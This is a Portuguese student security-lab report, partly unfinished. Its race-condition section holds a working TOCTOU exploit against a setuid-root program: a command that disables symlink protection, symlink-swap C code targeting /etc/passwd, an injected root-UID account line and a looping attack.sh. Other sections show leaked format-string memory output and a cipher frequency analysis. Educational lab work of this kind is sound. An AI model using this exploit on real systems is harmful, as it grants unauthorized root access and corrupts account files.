



  


# Segurança Informática</span> <br>
##  Projeto </span> <br>

### nome aluno1 ; numero aluno1  <br>
### nome aluno2 ; numero aluno 2 <br>

<br>


## 1 Introdução


## 2 Vulnerabilidades Condiçoes de Corrida - Introdução
Uma condição de corrida surge quando um programa depende da sequência e(ou) momento de execução de processos ou threads. Condições de corrida critica
ocorrem quando processos ou threads dependem da mesma informação de estado. As operações efetuadas sobre informação de estado partilhada devem ser
realizadas em secções criticas que devem ser executadas de forma exclusiva. Falhas a esta regra (de execução mutuamente exclusiva) podem permitir a
corrupção do estado partilhado.
Condições de corrida podem ser de difícil reprodução uma vez que o resultado final é não-determinista e depende do momento de execução nos vários processos
ou threads. Problemas desta natureza podem não ser notados quando se executam os programas em modo de debug ou quando se adiciona logging.

Em outros palavras, é a situação onde o tempo que os eventos ocorrem podem influenciar sua execução.
Softwares básicos como o sistema operacional, servidores diversos como banco de dados e HTTP também encontram condições de corrida.

**Como occorrem**
Se for algo exclusivo em memória ou que é garantido que apenas uma aplicação pode acessar só pode ocorrer uma condição de corrida se existir mais de uma thread, caso contrário não há concorrência, então o tempo é regido de forma linear pela aplicação.

Já recursos compartilhados entre várias aplicações estão sempre suscetíveis à condição de corrida.

Algumas condições de corrida, ou tentativas de solucionar condições de corrida podem provocar um deadlock que é a interdependência entre duas operações que são paralelas. Uma impede a outra de ser executada que por sua vez impede a primeira de ser executada.

<div style="page-break-after: always"></div>

## 3 Vulnerabilidades Condições de Corrida - Setup
Para o setup inicial precisamos de desativar a proteção contra ataques deste género. Foi através do seguinte comando que foi possivel fazê-lo

```sh
   $  sudo sysctl -w fs.protected_symlinks=0
```
Em computação, um symlink é um tipo especial de arquivo que contém uma referência a outro arquivo ou diretório na forma de um caminho absoluto ou relativo e que afeta a resolução do nome de caminho (pathname). Os symlinks já estiveram presentes em 1978 em sistemas operacionais de mini-computadores da DEC e do RDOS da Data General.


<div style="page-break-after: always"></div>

## 4 Vulnerabilidades Condições de Corrida - Programa Vulnerável

```c
/* vulp.c */
#include <stdio.h>
#include <string.h>
#include <unistd.h>

#define DELAY 5000

int main(){
  char* fn = "./XYZ";
  char buffer[60];
  FILE *fp;
  long i;
  /* get user input */
  scanf("%50s", buffer);
  if(access(fn, W_OK) == 0){
    for(i=0;i<DELAY;i++){
      int a = i ^ 2;
    }
    fp = fopen(fn, "a+");
    fwrite(buffer,sizeof(char),strlen(buffer), fp);
    fwrite("\n",sizeof(char),1, fp);
    fclose(fp);
  }else printf("No permission \n");
}
```


SetUID Program

```sh
   $ ls
   $ gcc vulp.c -o vulp
   $ sudo chown root vulp
   $ sudo chmod 4755 vulp
   $ ls -l vulp.c
```


*Permissões do programa vulp* 


<div style="page-break-after: always"></div>

## 5 Vulnerabilidades Condições de Corrida - Escolher o objetivo

Criar utilizador com permissões de root
```sh
   $ sudo adduser teste
   $ cut -d: -f1 /etc/passwd # List all users (teste appear)
   $ sudo chown teste vulp # SETUID to teste
   $ sudo chmod 4755 vulp
   $ ls -l vulp #OUTPUT: -rwsr-xr-x 1 teste seed 7628 Jan 8 07:36 vulp
```

**ID**
```sh
   $ id # uid=0(root) gid=0(root) groups=0(root)
```

Com isto demonstrámos como se adiciona um novo utilizador com os previlégios de root.
Após esta demonstração removemos a ultima linha, que adicionamos, no ficheiro "/etc/passwd".
<div style="page-break-after: always"></div>

## 6 Vulnerabilidades Condições de Corrida - Executar o atque
Tendo por objetivo, explorar a vulnerabilidade de condição de corrida e obter o acesso de um utilizador com provilégios root.

Para tal, tornámos o ficheiro /tmp/XYZ um link para o ficheiro /etc/passwd, e a vulnerabilidade ocorre no espeço-tempo entre a verificação e utilização.
```c
#include <unistd.h>
//substitute_file.c
int main(void) {
	unlink("./XYZ");
	symlink("/etc/passwd","./XYZ");
}
```
Uma vez que não se pode modificar o programa vulnerável, a única ação possível consiste na execução do ataque em paralelo, em
"corrida" contra o programa vulnerável, esperando que este vença a condição de corrido, ou seja: modificar o link durante a janela critica.

Infelizmente não é possível prever o timing perfeito, pelo que o sucesso do ataque é probabilístico, sendo que quanto menor a janela critica, menos provável é o
ataque ter sucesso. Uma hipótese para aumentar a probabilidade de sucesso consiste em executar o programa vulnerável muitas vezes, em simultâneo até obter sucesso no ataque.

Criamos um ficheiro de texto contendo a linha para adicionar o utilizador com privilégios.
"teste:U6aMy0wojraho:0:0:teste:/root:/bin/bash"

De seguida criámos o ficheiro attack.sh que em vai ser executado enquanto o ficheiro /etc/passwd não for modificado. 

```sh
#!/bin/bash
# attack.sh
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ] # Check if /etc/passwd is modified
  do
    rm ./XYZ
    true > ./XYZ
    vulp < passwd_input &
    ./substitute_file
    new=$($CHECK_FILE)
  done
echo "STOP... The passwd file has been changed"

```

Fizemos diverso testes, e o ataque foi executado com sucesso em menos de 5 segundos em todos os testes. 

## 6 String de formato 2.1

Hexadecimal
bfb9dfcf.b75392ef.b740be6e.b752ba88.b779fe60.b740bc45.bfb9d544.bfb9d0d4.0d696911.b740bc45.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.

Este valores representam os conteúdos de memória lidos pelo programa, que não deveriam ser acedidos fora do mesmo.


**2.2**


<div style="page-break-after: always"></div>


## 7 Vulnerabilidades Encriptação - Análise de Frequência
Nesta tarefa foi nos atribuido um texto cifrado, utilizando uma cifra de substituição mono-alfabética, ou seja, cada letra no texto cifrado é substituido pela mesma letra da cifra.
Sabendo que o texto original foi escrito na lingua portuguesa e tendo a análise de frequência da ligua portuguesa (ver figura 1), desenvolvemos um programa para analisar a frequência no texto cifrado.

```c
/*contagem_letras.c*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc,char** argv)
{
  // Get filename
	FILE *arq;
	char filename[50];
	scanf("%s", filename);
	printf("%s\n", filename);
	arq = fopen(filename, "r");
	char nextline[1024];
	
  // Check if file is opened
	if (arq == NULL)
	{
	   	printf("File not openned\n");
    		return 0;
	}

  // Count of apperances of each letter 
	int counts[26] = {0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0};
  // List of characters, according to dictionary
	char abc[26]= {'a','b','c','d','e','f','g','h','i','j','l','k','m','n','o','p','q','r','s','t','u','v','w','x','y','z'};

	
	while (fgets(nextline, sizeof(nextline), arq)){
		if (strlen(nextline) < 1)
			continue;
		for(int i = 0; i < strlen(nextline); i++){
			if(nextline[i] != '\0')
			{
				for(int j = 0; j < 26; j++){
					if(nextline[i] == abc[j]){
                        // In every letter found, add 1 to the count
						counts[j] = counts[j] + 1;
					}
				}
			}	
		}
	} 
	// Close file
	fclose(arq);
	printf("\n\n");

  // Print
	for(int i = 0; i < 26 ; i++){
		printf("Letra %c: %d\n", abc[i], counts[i]);
	}

}
```

<p float="center">
  
  
  <figcaption float="left">Figura 1 - Tabela da Análise de Frequência PT</figcaption>
  <figcaption float="rigth">   Figura 2 - Tabela da Análise de Frequência Texto Cifrado</figcaption>
</p>
<center>

  
  
  <b>Figura 3 - Análise de Frequência Texto Cifrado</b><br>

</center>

Através desta análise conseguimos tirar algumas conclusões:
* A letra com maior frequência é o 'r', na lingua portuguesa é o 'a', ou seja, o 'r' corresponde ao 'a'.
* A letra 'u' e 'z' não tem qualquer aparição no texto, podendo assim corresponder ao 'k', 'y' e 'z'.

* Depois de fazer algumas substiuições pelas chaves acima, conseguimos perceber o conteúdo da primeira frase "luis vaz de camoes", o que nos permitiu descobrir que 'o', coincidia com 'l', o 'p' com 'u', o 's' com o 'i', o 'e' com o 's', 'k' com 'z' e assim por diante.

* Assim conseguimos perceber a seguinte chave:
rdajhgnvsf_obiwctqelpk_myx (o 'z' e o 'u' não aparecem portanto assim não podemos incluir nesta fase):
'rdajhgnvsfzobiwctqelpkumyx'
'rdajhgnvsfuobiwctqelpkzmyx',
correspondendo ao abcedário, 'abcdefghijklmnopqrstuvwxyz'
Usamos o comando 'sha512sum ficheiro.txt', no entanto não conseguimos verificar qual é a chave certa.


<div style="page-break-after: always"></div>

##  Referências
 
  1. [The Linux Command Line](https://linuxcommand.org/)
  2. [How to Write a Setuid Program](http://nob.cs.ucdavis.edu/~bishop/secprog/1987-sproglogin.pdf)
  3. [fork](https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/fork/create.html)
  1. [The Linux Command Line](https://linuxcommand.org/)
  2. [How to Write a Setuid Program](http://nob.cs.ucdavis.edu/~bishop/secprog/1987-sproglogin.pdf)
  3. [fork](https://www.csl.mtu.edu/cs4411.ck/www/NOTES/process/fork/create.html)

  <div style="page-break-after: always"></div>


   